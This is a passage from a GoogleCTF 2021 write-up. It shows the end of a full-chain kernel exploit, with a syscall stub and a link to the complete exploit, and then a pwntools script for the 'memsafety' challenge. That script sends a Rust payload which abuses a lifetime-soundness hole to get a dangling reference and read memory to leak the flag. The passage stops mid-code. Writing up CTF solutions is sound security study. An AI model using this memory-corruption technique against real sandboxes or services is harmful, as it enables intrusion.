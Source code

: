```c=
}

int dup2(int oldfd, int newfd){
	asm volatile ("syscall" :: "a"(SYS_dup2));
}


```

In order to combine our kernel exploit with the one in sandbox escape, we wrote a simple python script and convert `sc.bin` into Javascript format. The whole exploit.html is kind of large, you can check the entire exploit [here](https://github.com/st424204/ctf_practice/tree/master/GoogleCTF2021/Fullchain).

flag: `CTF{next_stop_p2o_fda81a139a70c6d4}`

### memsafety

* First, I know nothing about rust pwn. But this [write-up](https://ctftime.org/writeup/11859) help me a lot.

```=python
#!/usr/bin/python2

from pwn import *

r = remote("memsafety.2021.ctfcompetition.com", 1337)

payload='''
    use prelude::{mem::ManuallyDrop, Box, Service};
    use prelude::{log, Vec, String};
    static FLAG: &'static str = "CTF{fake flag}";
    #[derive(Debug)]
    pub struct State(ManuallyDrop<String>);
    static UNIT: &'static &'static () = &&();
    fn foo<'a, 'b, T>(_: &'a &'b (), v: &'b T) -> &'a T { v }

    fn bad<'a, T>(x: &'a T) -> &'static T {
        let f: fn(_, &'a T) -> &'static T = foo;
        f(UNIT, x)
    }

    fn inner() -> &'static Vec<u8> {
        let x = Box::new(Vec::new());
        bad(&*x)
    }
    impl State {
        pub fn new() -> Box<dyn Service> {
             Box::new(State(ManuallyDrop::new(String::from(FLAG))))
        }
    }
    impl Service for State {
       fn handle(&mut self, _: &str) {
           let x = inner();
           let mut y = Box::new((1usize, 2usize, 3usize));

           let mut r = |addr: usize| { y.0 = addr; x[0] };
           let r32 = |r: &mut FnMut(usize) -> u8, x: usize| {
           let mut tmp = 0u32;
                 for j in 0..4 {
                     tmp |= (r(x+3-j) as u32) << (8 * j);
                 }
                 tmp
           };
           let dump = |r: &mut FnMut(usize) -> u8, start: usize, len: usize| {
```